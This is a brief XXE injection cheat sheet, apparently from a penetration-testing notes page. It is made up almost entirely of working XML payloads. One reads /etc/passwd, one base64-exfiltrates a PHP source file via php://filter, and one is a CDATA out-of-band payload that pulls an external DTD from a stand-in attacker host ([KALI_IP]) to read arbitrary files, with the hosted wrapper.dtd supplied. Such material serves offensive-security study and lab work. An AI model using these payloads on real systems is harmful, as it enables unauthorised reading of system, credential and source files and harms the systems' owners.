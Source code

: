 # XXE

```xml
Content-Type: application/json

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
	</bugreport>
```

{% code overflow="wrap" %}
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>wef</cwe>
		<cvss>wef</cvss>
		<reward>wef</reward>
	</bugreport>
```
{% endcode %}

## Reading XML Files with CDATA

Bypass `<` and `>` parsing issue. `file://` can also be used to list directories.

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///file/to/read.xml" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://[KALI_IP]/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```
{% endcode %}

**wrapper.dtd** hosted on kali:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```
